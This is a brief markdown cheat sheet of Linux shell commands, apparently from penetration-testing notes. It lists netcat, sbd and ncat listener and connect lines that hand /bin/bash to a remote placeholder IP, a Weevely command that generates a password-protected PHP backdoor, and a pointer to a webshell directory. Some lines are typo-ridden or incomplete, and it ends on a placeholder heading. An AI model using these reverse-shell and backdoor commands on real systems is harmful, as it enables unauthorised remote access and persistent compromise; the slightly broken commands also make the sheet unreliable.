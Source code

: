 # Linux Shells

## Bash

## Netcat

#### Listen

```bash
nc -lvnp 4444
```

#### Connect

```bash
nc <IP> 4444 /bin/bash
```

## Sbd

#### Listen

```bash
sbd -lvnp 4444
sbd -lvnp 4444 -k BlueTrumpet  # Use an encryption key
```

#### Connect

```bash
sbd <IP> 4444 /bin/bash
sbd <IP> 4444 -e /bin/bash -k BlueTrumpet  # Connect using encryption key
```

## Ncat

#### Listen

```bash
ncat -lvnp 4444 --ssl  # Listen with secure connection
```

#### Connect

```bash
ncat <IP> 4444 -e /bin/bash --ssl  # Connect to secure connection
```

## Weevely

[https://github.com/epinna/weevely3](https://github.com/epinna/weevely3)

```bash
weebvely generate bedbug /root/wish.php  # Generate backdor with password 'bedbug'
```

## Web Shells

```bash
ls /usr/share/webshells  # List the different languages of webshells
```

## something...
